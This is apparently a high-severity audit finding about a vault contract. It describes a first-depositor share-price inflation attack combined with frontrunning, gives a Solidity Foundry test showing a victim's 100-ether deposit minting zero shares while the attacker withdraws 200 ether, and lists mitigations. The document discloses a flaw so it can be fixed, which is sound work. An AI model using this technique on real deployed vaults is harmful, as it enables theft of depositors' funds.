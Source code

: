 JohnSmith

high

# First user can steal everyone else's tokens via share price manipulation and frontrunning

## Impact
A user who joins the systems first (deposits first) or temporary just only one left can manipulate share price and steal everybody's tokens by sending tokens to the system externally.
This attack is possible because protocol allows depositing a small amount of tokens and minting zero shares
## Proof of Concept
- Alice deposits 1 wei, and receives 1000 shares (if you initialize the vault with `STARTING_SHARES_PER_LINK = 1000` as in your test and deploy scripts)
- She makes price 1:1 via depositing 999 tokens with ERC20.transfer() 
- Next withdraws tokens worth 999 shares, so protocol left with 1 share and 1 token
- Bob wants to deposit 100 ether tokens
- Alice frontruns his deposit and transfers externally 100 ether tokens to vault, so now 1 share costs 100 ether + 1 wei tokens
- When Bob's 100 ether converted to shares `convertToShares(uint256 _tokens)` returns `0`;
- Now Alice has 1 share worth 200 ether + 1 wei, she can now withdraw

In general, since there is only a single share, for any user who is going to stake X tokens, if the system has X+1 tokens in its balance, the user won't get any shares and all the money will go to the attacker.

One test is worth thousand words so here is the test, which you can place into your `contract Vault_depositTest` inside `deposit.t.sol` file.
```solidity
 function testSharePriceManipulationAndFrontrun() public {
        uint256 bobAmount = 100 ether;
        link.mint(alice, 100 ether + 1 wei);
        link.mint(bob, bobAmount);

        // Alice deposits 1 wei
        vm.startPrank(alice);
        link.approve(address(vault), type(uint256).max);
        vault.deposit(1 wei);
        vm.stopPrank();
        assertEq(vault.shares(alice), 1000); // Alice has 1000 shares 
        assertEq(vault.balanceOf(alice), 1); // which worth 1 token

        // Alice would want to reduce share price to 1:1 instead of 1000:1
        vm.prank(alice);
        link.transfer(address(vault), 999);

        assertEq(vault.shares(alice), 1000); // Alice has 1000 shares
        assertEq(vault.balanceOf(alice), 1000); // which worth 1000 tokens

        // Alice reduces amount of shares the vault has so it stores 1 share and 1 token
        vm.prank(alice);
        vault.withdraw(999);

        assertEq(vault.shares(alice), 1); // Alice has 1 share 
        assertEq(vault.balanceOf(alice), 1); // which worth 1 token

        // Bob deposits 100 ETH, Alice is monitoring mempool and sends her transaction with higher fee,
        // so her transaction executes before Bob's transaction
        // Alice's transaction:
        vm.prank(alice);
        link.transfer(address(vault), 100 ether);

        assertEq(vault.shares(alice), 1); // Alice has 1 share 
        assertEq(vault.balanceOf(alice), 100 ether + 1 wei); // which worth  100 ether + 1 wei in tokens
 
        // Bob's transaction:
        vm.startPrank(bob);
        link.approve(address(vault), type(uint256).max);
        vault.deposit(bobAmount);
        vm.stopPrank();

        assertEq(vault.shares(bob), 0); // Bob got 0 shares 
        assertEq(vault.balanceOf(bob), 0); // Bob's balance is 0 tokens

        // Alice withdraws all but 1 wei, so she takes 200 ether not even burning her share(but that is another issue)
        vm.prank(alice);
	 			vault.withdraw(200 ether);

        assertEq(link.balanceOf(alice), 200 ether); // Alice got + 100 ether tokens

        // Alice can now repeat the attack and wait for next victim
    }
```

### Recommended Mitigation Steps
-  [Uniswap V2 solved this problem by sending the first 1000 LP tokens to the zero address](https://github.com/Uniswap/v2-core/blob/master/contracts/UniswapV2Pair.sol#L119-L124). The same can be done in this case i.e. when `totalSupply() == 0`, send the first min liquidity LP tokens to the zero address to enable share dilution.
-   Ensure the number of shares to be minted is non-zero: `require(_shares != 0, "zero shares minted");`
-   Create a periphery contract that contains a wrapper function that atomically calls `initialize()` and `deposit()`
-   Call `deposit()` once in `initialize()` to achieve the same effect as the suggestion above.
-   [BalancerV2 solution](https://github.com/balancer-labs/balancer-v2-monorepo/blob/master/pkg/pool-utils/contracts/BasePool.sol#L302-L316) 
